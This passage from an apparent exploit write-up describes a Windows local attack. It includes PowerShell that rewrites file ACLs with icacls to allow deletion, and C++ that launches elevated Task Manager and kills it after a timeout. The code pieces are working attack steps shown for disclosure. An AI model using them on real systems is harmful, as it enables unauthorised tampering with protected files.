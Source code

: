 ```c#
# 4. Explicitly overwrite ACLs on existing files with only (RX,D)
Get-ChildItem $target -Recurse -File | ForEach-Object {
    icacls $_.FullName /inheritance:r
    icacls $_.FullName /grant:r "Authenticated Users:(RX,D)"
}
```

Then, I proceeded to delete what I could.  I kept running into a brick wall and almost concluded this exploit as requiring a reboot.  But I was determined to pull this off without a reboot, and my persistence paid off!

![image](https://github.com/user-attachments/assets/77b3326c-2c5f-40f2-93c0-58119cf90b3d)

The other hurdle I ran into was the fact I couldn't close TaskManager after spawning it using `taskkill /F`.  Why?  Because I'm a standard user trying to kill an elevated process.  But after further research, I managed to work something out!  You can launch elevated processes that close after a set timeout period.  Problem solved!  Check out the code snippet below to see what I'm talking about:

```cpp

bool LaunchElevatedProcessWithTimeout(LPCWSTR executable, LPCWSTR parameters, DWORD timeout_ms)
{
    SHELLEXECUTEINFOW sei = { sizeof(sei) };
    sei.lpVerb = L"runas";
    sei.lpFile = executable;
    sei.lpParameters = parameters;
    sei.nShow = SW_SHOWNORMAL;
    sei.fMask = SEE_MASK_NOCLOSEPROCESS;

    if (!ShellExecuteExW(&sei))
    {
        DWORD err = GetLastError();
        std::wcerr << L"Failed to launch elevated process. Error: " << err << std::endl;
        return false;
    }

    if (sei.hProcess != NULL)
    {
        DWORD wait_result = WaitForSingleObject(sei.hProcess, timeout_ms);

        if (wait_result == WAIT_TIMEOUT)
        {
            std::wcout << L"Process exceeded timeout, terminating..." << std::endl;
            TerminateProcess(sei.hProcess, 1);
        }
        else
        {
            std::wcout << L"Process exited within timeout." << std::endl;
        }

        CloseHandle(sei.hProcess);
    }

    return true;
}

LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\taskmgr.exe", L"", 3000);
```
